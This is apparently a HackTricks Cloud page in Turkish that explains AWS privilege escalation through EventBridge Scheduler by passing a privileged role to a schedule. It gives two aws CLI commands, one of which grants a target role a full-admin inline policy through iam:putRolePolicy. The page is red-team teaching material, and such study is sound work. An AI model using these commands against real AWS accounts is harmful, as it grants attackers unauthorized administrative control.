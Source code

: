 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler, çeşitli AWS hizmetlerine çağrılar planlayarak ayrıcalık yükseltmek için kullanılabilir. Planlı bir şekilde hizmetleri çağırma yeteneğinden yararlanarak, yeterli izinlere sahip kullanıcılar ayrıcalıkları yükseltebilir. İşte EventBridge Scheduler'ın şablonlu hedefler kullanarak tetikleyebileceği bazı temel eylemler:

* Lambda: lambda:InvokeFunction - Lambda işlevlerini bir program dahilinde çağırın.
* CodeBuild: codebuild:StartBuild - AWS CodeBuild projelerini başlatın.
* CodePipeline: codepipeline:StartPipelineExecution - AWS CodePipeline yürütmelerini tetikleyin.
* ECS: ecs:RunTask - ECS görevlerini çalıştırın.
* EventBridge: events:PutEvents - EventBridge'e olaylar ekleyin.
* Inspector: inspector:StartAssessmentRun - Amazon Inspector değerlendirmelerini başlatın.
* Kinesis: kinesis:PutRecord - Kinesis akışlarına kayıt ekleyin.
* Firehose: firehose:PutRecord - Firehose teslim akışlarına kayıt ekleyin.
* SageMaker: sagemaker:StartPipelineExecution - SageMaker boru hattı yürütmelerini başlatın.
* SNS: sns:Publish - SNS konularına mesaj yayınlayın.
* SQS: sqs:SendMessage - SQS kuyruklarına mesaj gönderin.
* Step Functions: states:StartExecution - AWS Step Functions yürütmelerini başlatın.

Bunlar, EventBridge Scheduler'ın gerçekleştirebileceği şablonlu eylemlerden sadece birkaçıdır. Ancak, evrensel hedefler kullanarak, AWS hizmetleri arasında birçok başka eylem de tetiklenebilir. Evrensel hedefler, şablonlu listenin ötesinde daha kapsamlı API işlemlerine olanak tanır.

Daha fazla bilgi için EventBridge Scheduler hakkında:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

`sts:AssumeRole`, `iam:PassRole` ve `scheduler:CreateSchedule veya scheduler:UpdateSchedule` izinlerine sahip kullanıcılar, EventBridge Scheduler'ı daha yüksek ayrıcalıklara sahip bir rol kullanarak hizmetleri çağırmak için kullanarak ayrıcalıkları yükseltebilir.

Bu izinlerle, bir saldırgan, yükseltilmiş ayrıcalıklara sahip bir rolü üstlenebilir ve bir program oluştururken veya güncellerken bu rolü EventBridge Scheduler'a geçirebilir. Program, daha önce listelenen herhangi bir eylemi gerçekleştirecek şekilde yapılandırılabilir; örneğin, Lambda işlevlerini çağırmak, ECS görevlerini başlatmak, CodePipeline yürütmelerini tetiklemek veya EventBridge Scheduler tarafından desteklenen 270 AWS hizmetinden herhangi birinin işlemini gerçekleştirmek. Bu eylemleri planlayarak, bir saldırgan daha yüksek ayrıcalıkları kötüye kullanarak AWS hizmetleri arasında yetkisiz işlemler gerçekleştirebilir. \\

Örneğin, programı bir şablonlu eylem olan bir Lambda işlevini çağıracak şekilde yapılandırabilirler:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
EventBridge Scheduler'da şablonlu hizmet eylemlerine ek olarak, birçok AWS hizmeti için geniş bir API işlemleri yelpazesini çağırmak üzere evrensel hedefler kullanabilirsiniz. Evrensel hedefler, neredeyse her API'yi çağırma esnekliği sunar. Bir örnek, "putRolePolicy" politikasına sahip bir rol kullanarak "AdminAccessPolicy" eklemek için evrensel hedeflerin kullanılabilir:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Referanslar

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
